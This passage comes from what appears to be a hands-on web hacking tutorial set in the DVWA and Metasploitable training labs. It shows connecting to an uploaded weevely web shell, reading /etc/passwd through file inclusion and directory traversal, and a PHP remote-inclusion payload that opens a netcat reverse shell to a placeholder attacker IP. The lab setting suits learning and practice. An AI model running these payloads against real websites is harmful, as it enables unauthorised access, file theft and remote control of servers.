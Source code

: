 The DVWA site gives you the exact location of where it stored our file but in a real website you would have to discover it yourself. You could look up what the site is running and then look online for possible default locations of stored upload files, for example.

You might get a blank screen but as long as it's not a `404` page should be okay. It just means that the website doesn't show anything for your PHP file.

Once you have the file location you can interact with it, again, using weevely.
```sh
weevely http://<website-url>/dvwa/hackable/uploads/shell.php 12345
```

You should get back a weevely shell. Type help to see a list of commands. You can also use standard Linux commands.

**File Inclusion Vulnerability**

If the website is using a GET request we can use it to access files that we wouldn't normally be able to access, like the `/etc/passwd` 

```sh
http://<website-ip>/dvwa/vulnerabilities/fi/?page=../../../../../etc/passwd 
```
- I'm using the website IP here because that's what the DVWA site looks like, otherwise you would just use the normal address. 
- We're also utilising directory traversal `../../`

![](img/dvwa-file-inclusion.png)

**Include Vulnerability**

On the meatasploitable server we can check the `php.ini`file:
```sh
nano /etc/php5/cgi/php.ini
```
- We are looking for `allow_url_include = ON` 
- You can search in Nano by using `CTL+W <string> Enter`
- Search for `allow_url`

Creating a pass-through function.php on Kali to grab from the dvwa site:
```php
<?php
passthru("nc -e /bin/bash <attacker-ip> 4444");
?>
```
- Now move the file to the Kali server `/var/www/html/file.txt`
- In the URL of dvwa we can add a `?` to make the file run as php
